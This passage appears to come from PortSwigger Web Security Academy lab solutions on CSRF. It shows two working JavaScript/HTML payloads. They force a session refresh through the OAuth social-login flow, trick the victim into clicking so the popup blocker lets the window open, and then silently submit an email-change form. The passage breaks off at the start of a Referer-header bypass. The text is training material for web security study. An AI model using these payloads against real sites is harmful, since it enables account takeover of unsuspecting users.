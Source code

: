 2. From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.

3. Go back to the exploit server.

4. Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. The following is one possible approach:

```javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="pwned@web-security-academy.net"> </form> <script> window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); function changeEmail(){ document.forms[0].submit(); } 
</script>
```

Note that we've opened the `/social-login` in a new window to avoid navigating away from the exploit before the change email request is sent.
    
5. Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.

6. Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.

##### Bypass the popup blocker

1. Realize that the popup is being blocked because you haven't manually interacted with the page.

2. Tweak the exploit so that it induces the victim to click on the page and only opens the popup once the user has clicked. The following is one possible approach:

```javascript
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="pwned@portswigger.net"> </form> <p>Click anywhere on the page</p> 
<script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } </script>
```

1. Test the attack on yourself again whilmonitoring the proxy history in Burp.

4. When prompted, click the page. This triggers the OAuth flow and issues you a new session cookie. After 5 seconds, notice that the CSRF attack is sent and the `POST /my-account/change-email` request includes your new session cookie.

5. Go to your account page and confirm that your email address has changed.

6. Change the email address in your exploit so that it doesn't match your own.

7. Deliver the exploit to the victim to solve the lab.
#### Lab: CSRF where Referer validation depends on header being present
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
3. Delete the Referer header entirely and observe that the request is now accepted.
4. Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Include the following HTML to suppress the Referer header:

